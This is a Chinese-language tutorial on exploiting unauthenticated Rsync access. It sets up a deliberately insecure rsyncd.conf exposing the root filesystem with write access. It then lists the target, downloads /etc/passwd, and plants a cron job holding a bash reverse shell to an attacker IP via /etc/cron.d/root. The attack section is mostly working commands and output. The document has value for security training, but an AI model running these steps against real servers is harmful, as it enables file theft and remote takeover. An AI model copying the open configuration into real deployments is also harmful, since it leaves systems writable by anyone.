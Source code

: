 # Rsync未授权访问漏洞

## 漏洞描述

`Rsync`是`Linux`下一款数据备份工具，支持通过`rsync`协议、`ssh`协议进行远程文件传输。常被用于在内网进行源代码的分发及同步更新，因此使用人群多为开发人员。其中`rsync`协议默认监听`873`端口，而一般开发人员安全意识薄弱的情况下，如果目标开启了`rsync`服务，并且没有配置`ACL`或访问密码，我们将可以读写目标服务器文件。

## 环境搭建

rsyncd.conf

```
uid = root
gid = root
use chroot = no
max connections = 4
syslog facility = local5
pid file = /var/run/rsyncd.pid
log file = /var/log/rsyncd.log

[src]
path = /
comment = src path
read only = no
```

启动rsync

```
rsync --no-detach --daemon --config /etc/rsyncd.conf
```



## 漏洞利用

环境启动后，我们用rsync命令访问之：

```
[root@localhost tmp]# rsync rsync://192.168.32.183:873/
src            	src path

```

查看`src`目录

```
[root@localhost tmp]# rsync rsync://192.168.32.183:873/
src            	src path
You have new mail in /var/spool/mail/root
[root@localhost tmp]# rsync rsync://192.168.32.183:873/src
drwxr-xr-x             28 2022/07/26 03:45:11 .
-rwxr-xr-x              0 2022/07/26 03:45:11 .dockerenv
-rwxr-xr-x            101 2022/05/19 09:45:03 docker-entrypoint.sh
drwxr-xr-x              6 2018/01/21 13:42:04 bin
drwxr-xr-x              6 2017/07/13 09:01:05 boot
drwxr-xr-x              6 2022/07/26 03:45:11 data
drwxr-xr-x            340 2022/07/26 03:45:11 dev
drwxr-xr-x             66 2022/07/26 03:45:11 etc
drwxr-xr-x              6 2017/07/13 09:01:05 home
drwxr-xr-x             21 2018/01/21 13:42:05 lib
drwxr-xr-x             34 2017/10/08 20:00:00 lib64
drwxr-xr-x              6 2017/10/08 20:00:00 media
drwxr-xr-x              6 2017/10/08 20:00:00 mnt
drwxr-xr-x              6 2017/10/08 20:00:00 opt
dr-xr-xr-x              0 2022/07/26 03:45:11 proc
drwx------             37 2017/10/08 20:00:00 root
drwxr-xr-x             80 2022/07/26 03:48:12 run
drwxr-xr-x          4,096 2017/10/08 20:00:00 sbin
drwxr-xr-x              6 2017/10/08 20:00:00 srv
dr-xr-xr-x              0 2022/07/25 22:41:55 sys
drwxrwxrwt              6 2022/07/26 03:44:41 tmp
drwxr-xr-x             42 2017/10/08 20:00:00 usr
drwxr-xr-x             17 2017/10/08 20:00:00 var

```

这是一个Linux根目录，我们可以下载任意文件：

```
[root@localhost tmp]# rsync -av rsync://192.168.32.183:873/src/etc/passwd ./
receiving incremental file list
passwd

sent 43 bytes  received 1,283 bytes  2,652.00 bytes/sec
total size is 1,197  speedup is 0.90

```

或者写入定时计划：

```
echo '* * * * * bash -i >& /dev/tcp/192.168.32.130/9999 0>&1' >> shell
```

```
[root@localhost tmp]# rsync -av shell  rsync://192.168.32.183:873/src/etc/cron.d/root
sending incremental file list
shell

sent 146 bytes  received 35 bytes  362.00 bytes/sec
total size is 55  speedup is 0.30
```

![image-20230129215525053](../../.gitbook/assets/image-20230129215525053.png)